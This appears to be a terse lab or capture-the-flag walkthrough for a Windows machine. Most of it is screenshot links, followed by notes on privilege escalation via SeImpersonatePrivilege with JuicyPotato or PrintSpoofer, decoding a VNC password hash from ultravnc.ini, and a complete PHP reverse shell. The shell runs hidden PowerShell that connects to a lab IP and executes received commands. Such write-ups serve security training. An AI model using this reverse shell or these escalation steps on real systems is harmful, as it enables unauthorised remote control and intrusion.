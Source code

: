 ![image](https://github.com/user-attachments/assets/aaef55ca-1701-4134-84f0-ae7e2c5694d7)
![image](https://github.com/user-attachments/assets/bacf8f6f-f715-40be-92a2-f17d29b7138f)
![image](https://github.com/user-attachments/assets/b7fe6734-b595-41ef-bec5-01d1cb6f6f0a)
![image](https://github.com/user-attachments/assets/785541b9-3d93-4926-b9e0-01614974c2d1)
![image](https://github.com/user-attachments/assets/e9f4f2ad-11b1-4255-8fb5-54eaeadcbf11)
![image](https://github.com/user-attachments/assets/84239f12-d0f1-4d80-a8a4-cb59e9c6e070)
![image](https://github.com/user-attachments/assets/31b934e2-373d-4f05-89f7-41cb5dae6dbb)
![image](https://github.com/user-attachments/assets/47d1cb0c-8333-4c5a-9fe7-468873f4ab23)
![image](https://github.com/user-attachments/assets/02cfbfbd-9180-46c1-b2b0-4e41d34f82eb)
![image](https://github.com/user-attachments/assets/8bc7d2d3-9dd9-49f6-9c86-0484378ec013)
![image](https://github.com/user-attachments/assets/e7854b98-2cbe-486b-8702-d1e9e324f2ba)

Look around, cannot find entry point. Take a break.

Continue. Redeploy machine. Different IP. Check if share is writable.

![image](https://github.com/user-attachments/assets/e8c6cc76-5c96-4fc6-8f52-4637c10d16f5)
![image](https://github.com/user-attachments/assets/951a4363-5f7b-4d40-bc5f-ef3f1d9d4759)
![image](https://github.com/user-attachments/assets/42d93ccc-cfa9-4203-b68a-5f8914c4619e)
![image](https://github.com/user-attachments/assets/93cbc5c3-d6f0-4f45-8005-c17834f59896)
![image](https://github.com/user-attachments/assets/0ee08ecc-9a04-4c22-b8c7-17c436a54aac)
![image](https://github.com/user-attachments/assets/01cccb43-348c-4275-b995-ef1506f60c62)
![image](https://github.com/user-attachments/assets/c2c8bf3a-a8c5-4ada-9853-a8193400cdf3)
![image](https://github.com/user-attachments/assets/d31c38c4-ffd2-401a-8f23-616a03e174c9)
![image](https://github.com/user-attachments/assets/d995aaab-3b9f-4586-842a-0a30e1031329)

Machine is x64-based PC. SeImpersonatePrivilege Enabled. User JuicyPotato.exe or PrintSpoofer64.exe for PrivEsc.

Decody VNC password hash: upload vncpwd.exe to machine and run against ultravnc.ini Or on Kali run wine vncpwd.exe <Password-hash>


Windows PHP reverse shell
```bash
<?php
$cmd = "powershell -NoP -NonI -W Hidden -Exec Bypass -Command ";
$cmd .= "\"\$client = New-Object System.Net.Sockets.TCPClient('10.4.95.140',5900);";
$cmd .= "\$stream = \$client.GetStream();";
$cmd .= "[byte[]]\$bytes = 0..65535|%{0};";
$cmd .= "while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){";
$cmd .= "\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);";
$cmd .= "\$sendback = (iex \$data 2>&1 | Out-String );";
$cmd .= "\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';";
$cmd .= "\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);";
$cmd .= "\$stream.Write(\$sendbyte,0,\$sendbyte.Length);";
$cmd .= "\$stream.Flush() }\";";
exec($cmd);
?>
```
